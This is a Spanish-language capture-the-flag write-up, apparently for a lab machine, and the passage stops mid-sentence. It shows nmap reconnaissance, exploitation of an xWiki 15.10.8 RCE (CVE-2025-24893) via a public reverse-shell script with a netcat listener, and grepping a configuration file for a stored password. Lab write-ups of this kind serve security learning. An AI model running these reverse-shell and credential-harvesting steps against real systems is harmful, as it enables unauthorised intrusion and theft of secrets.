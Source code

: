 #xWiki #RCE 

## Reconocimiento
Empezamos la maquina realizando un reconocimiento de puertos y servicios con [[NMAP]]:
`nmap -sS -p- --open --min-rate 5000 -n -Pn -vvv 10.10.11.80 -oG allPorts`

Encontramos los puertos `22, 80, 8080`

Añadimos la maquina al fichero `/etc/hosts`

Navegamos al puerto `80` por la web y encontramos que en el apartado `Docs` nos redirige a `wiki.editor.htb` para poder verlo correctamente lo volvemos a añadir al `/etc/hosts`

Navegando en la web de `http://wiki.editor.htb/xwiki/bin/view/Main/` vemos que la versión de `xWiki` es la `15.10.8`

Buscamos en internet información sobre esta versión y encontramos que es vulnerable a RCE, usamos el exploit de GitHub `https://github.com/Bishben/xwiki-15.10.8-reverse-shell-cve-2025-24893`
el cual nos explica como explotarlo.

## Explotación
Para explotarlo necesitamos ponernos primero en escucha con [[NETCAT]] en un puerto de nuestra maquina `nc -nlvp 4444`

Después deberemos ejecutar el Python 
`python3 cve-2025-24893.py <target_base_url> <lhost> <lport>`

En nuestro listenner obtendremos una Shell como `xWiki`

## Escalada de Privilegios
Si navegamos al directorio `/home` vemos que hay un usuario `Oliver`, para poder pivotar a el, buscaremos información en los archivos de configuración de `xWiki`

Estos ficheros de configuración se encuentran en `/usr/lib/xwiki/WEB-INF` exactamente miraremos el archivo `hibernate.cfg.xml`
En este archivo filtraremos por la palabra `password`
`cat hibernate.cfg.xml | grep "password"` encontramos una línea que nos indica la siguiente contraseña `theEd1t0rTeam99`
Como 